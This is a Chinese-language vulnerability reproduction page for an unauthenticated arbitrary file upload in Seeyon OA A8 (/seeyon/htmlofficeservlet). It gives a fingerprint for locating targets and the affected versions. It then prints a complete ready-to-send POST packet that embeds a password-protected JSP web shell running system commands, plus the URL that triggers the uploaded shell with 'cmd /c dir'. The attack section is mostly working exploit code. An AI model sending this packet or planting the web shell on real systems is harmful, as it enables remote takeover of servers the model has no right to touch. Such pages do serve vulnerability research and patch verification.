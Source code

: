 # 致远OA A8 htmlofficeservlet 任意文件上传漏洞

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## 网络测绘

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## 漏洞影响

```
致远A8-V5协同管理软件V6.1sp1
致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
致远A8+协同管理软件V7.1
```

## 漏洞复现

访问目标站点

```
/seeyon/htmlofficeservlet
```

出现如下图响应，则可能含有漏洞

![image-20220520153223889](images/202205201532921.png)

使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![image-20220520153242842](images/202205201532919.png)

出现如图响应则为上传成功,访问

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```

![image-20220520153301492](images/202205201533547.png)